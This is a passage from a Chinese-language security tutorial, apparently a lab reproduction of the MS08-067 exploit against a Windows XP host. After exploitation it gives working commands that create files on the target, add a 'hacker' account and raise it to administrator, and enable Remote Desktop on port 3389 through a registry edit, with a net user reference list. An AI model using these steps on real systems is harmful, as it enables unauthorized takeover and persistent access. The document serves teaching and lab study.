 ![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROKEl9UgPgdtS7f6icqwSr8mH8ERHdD1yd1yib8ONLqpZia1mQ9PKIqEAvbZIdSD4XpCFoK1FOFlnlyA/640?wx_fmt=png&from=appmsg "")  
  
注意：Windows XP SP1系统是中文而不是英文的，需要对ms08_067_netapi_ser2003_zh.rb处理。  
- 参考：  
MS08-067 远程执行代码 漏洞复现 - feizianquan  
  
第六步，在目标主机上创建文件夹及文件。  
```
cd ..
# 创建文件夹
mkdir hacker
# 访问目录
dir
cd hacker
# 创建文件并写入内容
echo eastmount>test.txt
# 查看目标系统的基本信息
sysinfo
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROKEl9UgPgdtS7f6icqwSr8mNp4eHsOkUQ2EDibUJhiabBNGia3ibAODycIvpevv1BReGWnS4kkI8ZTc9A/640?wx_fmt=png&from=appmsg "")  
  
显示结果下图所示：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROKEl9UgPgdtS7f6icqwSr8mA5j6WRA9fvlNyWwz4pjo8kDreyiajpkUnjEBEtQSPFCZsTLDXviaZfAA/640?wx_fmt=png&from=appmsg "")  
  
第七步，对目标XP主机进行深度提权。  
```
# 增加普通用户
net user hacker 123456 /add 
# 提升管理员权限
net localgroup administrators hacker /add
```  
  
Windows DOM用户常用命令如下：  
- net user abcd 1234 /add新建一个用户名为abcd，密码为1234的帐户，默认为user组成员  
  
- net user abcd /del将用户名为abcd的用户删除  
  
- net user abcd /active:no将用户名为abcd的用户禁用  
  
- net user abcd /active:yes激活用户名为abcd的用户  
  
- net user abcd查看用户名为abcd的用户的情况  
  
- net localgroup administrators abcd /add将abcd账户给予管理员权限  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROKEl9UgPgdtS7f6icqwSr8mWSnLFWX7iaiabqmljvIybXsMaBGObLSc6CDczn67eZo4jOKsoibk9mf1A/640?wx_fmt=png&from=appmsg "")  
  
此时被攻击的主机新增“hacker”管理员如下图所示：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROKEl9UgPgdtS7f6icqwSr8mUKOr44DXpoBJdwOBrVjf1eOaZicWNHjcdUKOwbAv1nUaNm2w5d3FHew/640?wx_fmt=png&from=appmsg "")  
  
第八步，开启远程连接3389端口并进行远程操作。  
```
# 开启远程连接
echo reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f > C:\WINDOWS\system32\3389.bat && call 3389.bat
# 查看网络端口
netstat -an
# 远程连接
rdesktop 192.168.44.135
```  
  
